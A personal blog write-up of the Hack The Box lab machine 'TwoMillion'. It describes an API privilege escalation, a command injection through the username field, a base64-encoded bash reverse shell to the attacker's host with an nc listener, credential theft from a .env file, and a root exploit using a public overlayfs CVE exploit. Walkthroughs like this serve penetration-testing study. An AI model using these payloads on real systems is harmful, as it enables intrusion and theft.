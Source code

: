 ```yaml
---
layout: single
classes: #wide
title: "TwoMillion"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [ctf, htb]
tags: [burp, api]
---
```

# TwoMillion:
![box](/_posts/htb/twomillion/img/2mil-box.png)  
Hi, this is one of the first HTB boxes I have attempted.
Having done a few boxes in the past I had a little idea of 
what I was getting myself into but, this box put me through it.  

This is the first box I have tried using guided mode and it was a very
plesant supprise. If you haven't tried the HTB guided mode I would
definitely recommend it. 

### Nmap
Nmap scan:
![nmap scan](/_posts/htb/twomillion/img/nmap.png)  
nmap scan found 2 tcp ports

### Page Exploration
Adding the ip and 2million.htb to my /etc/hosts file I navigated to
the page. Upon investagation of the page there was a join page and a login
page. The join page needed a code to get in. 

![code_login](/_posts/htb/twomillion/img/code_login.png)  

Refreshing the page and looking in the network tab presented me with some
js files. One file was called inviteapi.min.js. The one issue with this
file is it was obfuscated.
![bad_code](/_posts/htb/twomillion/img/code_found_in-invite.api.min.js.png)  
Upon deobfuscating the code you get:  
![good_code](/_posts/htb/twomillion/img/fixed_code.png)  
Little more readable right?

Within this code there is the function makeInviteCode().
Executing this function manually within the console gives an output
encrypted in ROT13 (nothing a little cyberchef cant solve). Throwing the output into cyberchef you get the hint "In order to generate the invitation code, make a POST request to /api/v1/invitation/generate".
 
Curl came in clutch being able to send the post request:  
`curl -i -L -X POST -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -b "PHPSESSID=36tguu0940aidi58fmloe" http://2million.htb/api/v1/invite/generate`

The request responded with:   
{"0":200,"success":1,"data":{"code":"Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=","format":"encoded"}}  

The code can be decrypted using the following command:   
`echo "Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=" | base64 --decode`  
My code was: `NY5T4-WKXIF-JO6JT-Q7UDZ`  

Going back to the forum now that we had a valid invite code I created
my account with the credentials:  
Username: Ryushe  
Email: Ryushe.dev@gmail.com  
Password: Ryu  

### VPN
Upon loging in I was greeted with a older verion of the current HTB
website. The most important part of the entire page was the vpn
page. This page was able to create/regenerate a valid vpn key.  

Using burp to inspect the request I noticed that the page was sending
a request to `/api/v1/user/vpn/generate`. Modifying the request a 
little to see how the website worked, I was able to see all the
different things the api could do when I navigated to `/api`. Going up
one directory would show the user all the valid api requests. 

![api](/_posts/htb/twomillion/img/api_endpoints.png)  

Notice how there is a url to generate a vpn for not only a normal user,
but for an admin as well. 

Admin has an api request that allows us to check if we are admin:  
`GET /api/v1/admin/auth`  
Sending a GET request using burp we can see that we are indeed infact
not admin :(  
![Am_admin?](/_posts/htb/twomillion/img/admin_false_burp.png)  

Now, there is another api url under the PUT category. This api link
allows the user to change admin settings. Using burp to send a
request will result in the a response saying "danger", "missing
perameter: email"

![email_not_valid](/_posts/htb/twomillion/img/Missing_email_peram.png)  

Adding the email perameter you get something that looks like this:  

![email_valid](/_posts/htb/twomillion/img/Misisng_isadmin_peram.png)  

Adding in the admin block and then checking our admin status we get:  
Note: is_admin has to be set to 1 like this `"is_admin":1`  

![admin_true](/_posts/htb/twomillion/img/admin_true.png)  

Now, is when the magic starts to happen. We're root right? Ya, remember
the api call I mentioned before `api/v1/admin/vpn/generate`? We
can now successfully call that.

Calling the `vpn/generate` using a POST burp request it asks for us to give
it a user to make the vpn for. Putting
`{"username":"Ryushe"}`
in the request I get a successful vpn generation output.  

Now, this api endpoint has a command injection vulnerability in it.
We can test this by changing the request to `{"username":"Ryushe;ls;"}`  

### Command Injection Exploit
Now that we know that there is a command injection vulnerability we can
set-up a reverse shell into the machine. Using a basic reverse shell payload
(I used a bash reverse shell) we can encrypt it for transfer using:  
`echo "bash -i >& /dev/tcp/<ip of host>/8888 0>&1" | base64 `  
Now, we want to get a nc listener on our reverse shell:  
`nc -lvnp 8888`  
Copy the ouput and put it in where it says encrypted payload:  
`echo "<output of first command>" | base64 -d | bash`  
Paste the command into the machine you are attacking a press enter.
If all went went well you should now be in the machine.

Now, looking in the admin directory we see user.txt (the first flag)  
Hmm.. we need to take over admin user  

Taking a look at the .env file I was presented with the db name as well as
the the admin username and password.  
dbname=htb_prod  
username: admin  
password: SuperDuperPass123   
running: `su admin`  
with pass: `SuperDuperPass123`  
Loggs you into the admin account. Now, that you are admin you can get the 
user.txt file in the admin home directory. 

Upon logging into the user admin you are presented with a message:  

![mail](/_posts/htb/twomillion/img/1you_have_mail.png)  

Upon looking at the /var/mail directory I found the file mail:  

![mail_contents](/_posts/htb/twomillion/img/2mail.png)  

The email gave clues to check the db config so thats where I headed next.
Logging into mysql with the valid credentials I got from the .env file.
I did not find anything upon entering the mysql db.   

I decided to take another look at the email that was sent to admin. 
Upon further inpection I found that the email was talking about the
os that was hosting their services and something to do with overlayfs. 
Currently we are on version 22.04.1 of ubuntu and
googling ubuntu 22.04.1 overlayfs vunerabilities lead me to this [article](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#how-the-cve-2023-0386-vulnerability-works).  
Upon further investagation I found this [repo](https://github.com/sxlmnwb/CVE-2023-0386) that worked wonders: 
1. Clone onto host system  
2. settup a `python -m http.server`  
3. wget --recursive --no-parent <http://myip:port>
4. going to the dir with 2 different terminals I made the process and ran it with   
`./fuse ./ovlcap/lower ./gc`  
5. In the second terminal I ran `./exp` (and just like that we had root)  

![root](/_posts/htb/twomillion/img/3proof_root.png)  

I ran sudo apt install plocate (to make finding the root flag easier)  
It did not.... (ended up waiting for it to fail over and over)  

Finally, I cd'ed into the root dir and there it was waiting for me the root.txt  
Catting the file I got the flag 


![pwn](/_posts/htb/twomillion/img/Proof_of_pwn.png)  


### What I Learned
* Command injection vulnerability
* Curl -X -L <url>   
    - how to format curl for redirects and post requests  
* To try to spawn a shell earlier.. I was too caught up with 
other things I totally forgot you can spawn shells to make things easier  
Also ldconfig allows you to see lib versions.. didnt know that
* Better understanding of how to send burp requests and modify data
    - eg: Command injections

